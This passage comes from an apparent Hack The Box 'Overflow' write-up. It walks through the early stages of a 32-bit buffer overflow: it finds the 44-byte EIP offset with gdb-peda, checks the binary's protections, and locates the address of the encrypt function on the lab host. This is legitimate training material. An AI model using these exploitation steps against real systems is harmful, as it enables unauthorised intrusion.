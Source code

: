 ```
0016| 0xffffcec0 --> 0xf7fa7000 --> 0x1e4d6c 
0020| 0xffffcec4 --> 0xf7fa7000 --> 0x1e4d6c 
0024| 0xffffcec8 --> 0x0 
0028| 0xffffcecc --> 0xf7de0e46 (<__libc_start_main+262>:       add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414641 in ?? ()

```

In a 32-bit program, the address is returned into EIP before the crash, so I can feed it that value, “AFAA” to see the offset is 44 bytes into the name:

```

gdb-peda$ pattern_offset AFAA
AFAA found at offset: 44

```

#### Address of encrypt

If I’m going to return to `encrypt`, I need the address. Interestingly, `checksec` says that PIE is enabled:

```

oxdf@hacky$ checksec file_encrypt
[*] '~/hackthebox/overflow-10.10.11.119/file_encrypt'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

Luckily for me, ASLR is disabled on the server, so the code will be fixed in memory. `gdb` on Overflow shows the address:

```

tester@overflow:/opt/file_encrypt$ gdb -q file_encrypt
Reading symbols from file_encrypt...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0xb70
(gdb) r
Starting program: /opt/file_encrypt/file_encrypt 

Breakpoint 1, 0x56555b70 in main ()
(gdb) p encrypt 
$1 = {<text variable, no debug info>} 0x5655585b <encrypt>

```
